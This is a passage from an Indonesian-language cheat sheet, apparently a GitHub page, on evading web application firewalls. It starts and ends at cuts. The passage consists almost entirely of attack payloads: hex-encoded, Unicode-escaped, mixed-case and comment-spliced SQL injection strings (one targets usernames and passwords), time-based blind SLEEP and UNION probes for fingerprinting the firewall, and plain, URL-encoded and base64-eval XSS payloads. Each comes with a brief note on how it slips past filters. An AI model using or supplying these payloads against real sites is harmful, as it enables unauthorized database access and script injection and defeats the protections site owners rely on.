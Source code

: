 Mengubah string ke dalam format hexadecimal.
✅ Payload Hex Encoded:
```
0x27204F5220313D31202D2D
```
1.3. Unicode Bypass

Mengubah karakter payload menjadi Unicode untuk melewati filter karakter tertentu.
✅ Payload Unicode:
```
%u0027 OR 1=1 --
```
1.4. Case Manipulation

Sebagian besar WAF hanya mendeteksi huruf kecil.
✅ Payload Case Manipulation:
```
SeLeCt * FrOm users WhErE username='admin' --
```
1.5. Comment-Based Bypass

Menggunakan komentar SQL untuk menyembunyikan karakter tertentu.
✅ Payload dengan komentar:
```
SELECT/**/username,password/**/FROM/**/users/**/WHERE/**/username='admin'
```
1.6. Time-Based Blind SQLi

Jika WAF memblokir output error, kita bisa menggunakan teknik time-based attack untuk menguji apakah injeksi berhasil.
✅ Payload Time-Based SQLi (MySQL):
```
' OR SLEEP(5) --
```
Jika server butuh waktu lebih lama untuk merespons, berarti injeksi berhasil.

1.7. WAF Fingerprinting via SQLi

Untuk mengetahui filter WAF sebelum bypass, kita bisa mengirimkan payload uji coba dan melihat respons.

✅ Payload untuk mengetahui apakah UNION SELECT diblokir:
```
' UNION SELECT NULL, NULL --
```
Jika permintaan ditolak, WAF kemungkinan memblokir kata kunci UNION.


---

🛡️ 2. Cross-Site Scripting (XSS) Bypass

XSS memungkinkan eksekusi JavaScript berbahaya di browser korban. WAF biasanya mencegah XSS dengan memblokir tag <script> atau karakter spesifik. Berikut beberapa teknik bypass XSS.

📌 Teknik Bypass XSS

2.1. Bypass dengan Encoding

✅ Payload tanpa encoding:
```
<script>alert(1)</script>
```
✅ Payload URL Encoded:
```
%3Cscript%3Ealert(1)%3C%2Fscript%3E
```
✅ Payload Base64 Encoded:
```
<script>eval(atob('YWxlcnQoMSk='))</script>
```
2.2. Bypass dengan SVG
